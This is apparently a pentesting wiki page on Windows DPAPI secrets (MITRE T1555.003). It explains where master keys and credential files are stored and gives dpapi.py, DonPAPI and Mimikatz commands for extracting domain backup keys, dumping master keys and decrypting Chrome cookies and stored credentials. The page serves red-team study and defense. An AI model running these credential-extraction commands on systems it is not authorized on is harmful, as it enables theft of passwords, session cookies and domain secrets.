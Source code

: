 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1555.003
---
```


# DPAPI secrets

## Theory

The DPAPI (Data Protection API) is an internal component in the Windows system. It allows various applications to store sensitive data (e.g. passwords). The data are stored in the users directory and are secured by user-specific master keys derived from the users password. They are usually located at:

```bash
C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID
```

Application like Google Chrome, Outlook, Internet Explorer, Skype use the DPAPI. Windows also uses that API for sensitive information like Wi-Fi passwords, certificates, RDP connection passwords, and many more.

Below are common paths of hidden files that usually contain DPAPI-protected data.

```bash
C:\Users\$USER\AppData\Local\Microsoft\Credentials\
C:\Users\$USER\AppData\Roaming\Microsoft\Credentials\
```

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, DPAPI-data can be manipulated (mainly offline) with tools like [dpapick](https://github.com/jordanbtucker/dpapick) (Python), [dpapilab](https://github.com/dfirfpi/dpapilab) (Python), [Impacket](https://github.com/SecureAuthCorp/impacket)'s [dpapi.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/dpapi.py) and [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python).

```bash
# (not tested) Decrypt a master key
dpapi.py masterkey -file "/path/to/masterkey_file" -sid $USER_SID -password $MASTERKEY_PASSWORD

# (not tested) Obtain the backup keys & use it to decrypt a master key
dpapi.py backupkeys -t $DOMAIN/$USER:$PASSWORD@$TARGET
dpapi.py masterkey -file "/path/to/masterkey_file" -pvk "/path/to/backup_key.pvk"

# (not tested) Decrypt DPAPI-protected data using a master key
dpapi.py credential -file "/path/to/protected_file" -key $MASTERKEY
```

[DonPAPI](https://github.com/login-securite/DonPAPI) (Python) can also be used to remotely extract a user's DPAPI secrets more easily. It supports [pass-the-hash](../../ntlm/pth.md), [pass-the-ticket](../../kerberos/ptt.md) and so on.

```bash
DonPAPI.py 'domain'/'username':'password'@<'targetName' or 'address/mask'>
```
{% endtab %}

{% tab title="Windows" %}
On Windows systems [Mimikatz](https://github.com/gentilkiwi/mimikatz) (C) can be used to extract dpapi with [`lsadump::backupkeys`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/backupkeys), decrypt with [`dpapi::chrome`](https://tools.thehacker.recipes/mimikatz/modules/dpapi/chrome) and [`dpapi::cred`](https://tools.thehacker.recipes/mimikatz/modules/dpapi/cred) or use specific master keys with [`dpapi::masterkey`](https://tools.thehacker.recipes/mimikatz/modules/dpapi/masterkey) and [`sekurlsa::dpapi`](https://tools.thehacker.recipes/mimikatz/modules/sekurlsa/dpapi) , using specified passwords or given sufficient privileges.

```bash
# Extract and decrypt a master key
dpapi::masterkey /in:"C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID" /sid:$SID /password:$PASSWORD /protected

# Extract and decrypt all master keys
sekurlsa::dpapi

# Extract the backup keys & use it to decrypt a master key
lsadump::backupkeys /system:$DOMAIN_CONTROLLER /export
dpapi::masterkey /in:"C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID" /pvk:$BACKUP_KEY_EXPORT_PVK

# Decrypt Chrome data
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies"

# Decrypt DPAPI-protected data using a master key
dpapi::cred /in:"C:\path\to\encrypted\file" /masterkey:$MASTERKEY
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dpapi-extracting-passwords" %}

{% embed url="https://www.synacktiv.com/ressources/univershell_2017_dpapi.pdf" %}
